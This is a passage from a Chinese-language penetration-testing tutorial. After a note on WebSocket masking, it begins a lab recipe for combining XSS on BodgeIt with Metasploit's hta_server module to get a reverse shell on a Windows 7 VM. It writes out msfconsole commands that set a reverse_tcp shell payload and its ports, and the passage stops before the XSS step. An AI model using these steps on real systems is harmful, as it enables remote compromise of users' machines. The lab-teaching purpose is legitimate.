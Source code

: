 注意，客户端发送的消息是被掩盖的（未加密的），而服务器发送的消息是明文的；这是 RFC 6455 协议定义的一部分（[`www.rfc-base.org/txt/rfc-6455.txt`](http://www.rfc-base.org/txt/rfc-6455.txt)）。

# 使用 XSS 和 Metasploit 获取远程 Shell

在前面的章节中，我们已经看到，XSS 可被攻击者用来提取用户信息或在应用程序范围内代表用户执行操作。然而，通过稍微多一点的努力和一些巧妙的社会工程，攻击者可以利用 XSS 说服用户下载并执行恶意软件，从而危害其客户端计算机，并进一步访问本地网络。

在这个示例中，我们将看到更复杂的 XSS 攻击的概念验证，最终导致攻击者能够在受害者计算机上远程执行命令。

# 准备工作

对于这个示例，我们将使用易受攻击的 VM `vm_1` 上的 BodgeIt 作为受攻击的应用程序。为了清晰起见，我们还需要一个单独的客户端虚拟机。在这个示例中，我们将在我们的实验室中添加一个 Windows 7 虚拟机。

如果您尚未配置 Windows 虚拟机，Microsoft 提供了多种设置供开发人员测试其应用程序在其 Internet Explorer 和 Edge 浏览器中使用；您可以从 [`developer.microsoft.com/en-us/microsoft-edge/tools/vms/`](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) 下载它们。对于这个示例，我们将使用带有 IE 8 的 Windows 7。随意尝试其他版本；只需在架构和操作系统设置中进行一些微小更改，应该也可以工作。

# 如何做到...

我们将利用 XSS 让浏览器打开并执行我们在 Kali 虚拟机中托管的恶意 HTA 文件：

1.  首先，让我们设置服务器。打开 Metasploit 控制台：

```
msfconsole
```

1.  一旦启动，执行以下命令加载攻击模块和载荷：

```
use exploit/windows/misc/hta_server
set payload windows/shell/reverse_tcp
```

1.  现在，我们的服务器将监听端口 `8888`：

```
set srvport 8888
```

1.  一旦执行了载荷，反向连接的监听器将在端口 `12345` 上：

```
set lport 12345
show options
```
